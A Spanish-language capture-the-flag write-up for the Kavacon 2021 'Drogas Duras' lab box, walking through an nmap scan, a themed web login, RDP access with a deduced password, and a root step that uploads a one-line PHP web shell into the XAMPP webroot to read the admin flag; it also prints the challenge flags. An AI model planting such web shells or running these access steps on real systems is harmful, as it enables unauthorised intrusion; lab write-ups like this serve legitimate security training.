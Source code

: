```yaml
---
title: "Kavacon 2021 – Drogas Duras"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/kavacon.png"
categories:
  - WriteUp
---
```



## USER

En primer llugar hacemos un nmap a la ip y obtenemos lo siguiente

```
 Nmap 7.91 scan initiated Wed Oct 20 11:01:58 2021 as: nmap -p22,80,135,139,443,445,3389,5040,49664,49665,49666,49667,49669,49674 -sCV -O -oN NMAP 10.4.4.153

Nmap scan report for 10.4.4.153
Host is up (0.068s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 1b:96:83:6a:eb:95:f2:4e:a6:5c:7b:03:9f:11:ff:69 (RSA)
|   256 49:b1:af:d5:ab:62:68:18:17:dd:91:7d:d1:cf:24:68 (ECDSA)
|_  256 a3:28:50:54:b9:fa:f5:58:a7:20:3d:ba:08:e2:71:23 (ED25519)
80/tcp    open  http          Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was http://10.4.4.153/dashboard/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.51 ((Win64) OpenSSL/1.1.1l PHP/7.3.31)
|_http-server-header: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.3.31
| http-title: Login super seguro
|_Requested resource was https://10.4.4.153/dashboard/
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 (91%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (90%), Microsoft Windows XP SP3 (88%), Microsoft Windows Server 2008 SP1 (88%), Microsoft Windows 10 (87%), Microsoft Windows 7 or Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8.1 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (87%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-20T14:04:40
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 20 11:06:56 2021 -- 1 IP address (1 host up) scanned in 298.22 seconds
```

Al entrar a la web nos damos cuenta que es sobre «Juego del Calamar»

![Luz Roja, Luz Verde 1](/assets/images/post/2021/luzrojaluzverde_1.png)

De acuerdo a la serio uno se movía con Luz verde, por lo que escribimos «verde», con esto entramos a una web con los datos de nuestro jugador #3389 y podemos descargar la ficha, el jugador 3389 hace alusión al puerto 3389 visto en en nmap además de un potencial usuario «seong»

![Luz Roja, Luz Verde 2](/assets/images/post/2021/luzrojaluzverde_2.png) | ![Luz Roja, Luz Verde 3](/assets/images/post/2021/luzrojaluzverde_3.png)

Al tarducir el fichero nos dice que la contraseña es un numero de 4 digitos. En la serie, la contraseña de ATM era el numero del jugador por lo que se deduce que la contraseña es 3389 (mismo que el pueto RDP), se prueba y podemos entrar a remote desktop con el comando y obtenemos acceso con rdp y la flag

rdesktop -f -u "seong" -p 3389 <IP>

***flag{jug4r3m0smu3vet3luzv3rd3!!}***

## ROOT

Para root, se debe subir una web shell en php en la carpeta C:\xampp\htdocs\dashboard\ desde

```
<?php
    echo shell_exec($_GET['cmd']);
?>
```

Con esta web tenemos acceso como administrador y podremos ver la flag revisando en nuestra web con la extensión ?cmd=type C:\Users\admin\Desktop\admin.txt.txt

***flag{c0m0estamosmentalmente?}***



![Racso](https://www.hackthebox.com/badge/image/159593)